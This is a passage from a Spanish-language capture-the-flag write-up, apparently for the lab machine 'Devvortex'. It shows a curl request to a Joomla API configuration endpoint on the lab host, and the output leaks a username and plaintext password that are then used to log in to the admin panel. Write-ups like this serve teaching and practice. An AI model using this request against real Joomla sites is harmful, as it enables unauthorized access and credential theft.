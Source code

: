 ![Branching](/assets/images/devvortex/administrador.jpg)

Si no fijamos esta hecha en la plataforma Joomla, haciendo una busqueda por internet podemos encontrar una vulnerabilidad en joombla

https://vulncheck.com/blog/joomla-for-rce

Utilizando el comando siguiente podremos enonctrar un usuario y una contraseña

```
curl http://dev.devvortex.htb/api/index.php/v1/config/application?public=true | jq

  "type": "application",
      "id": "224",
      "attributes": {
        "user": "lewis",
        "id": 224
      }
    },
    {
      "type": "application",
      "id": "224",
      "attributes": {
        "password": "P4ntherg0t1n5r3c0n##",
        "id": 224

```

user: lewis
password: P4ntherg0t1n5r3c0n##

Pues si nos vamos al login de joomla de antes y introducimos el usuario y la contraseña que hemos descubierto podremos entrar.
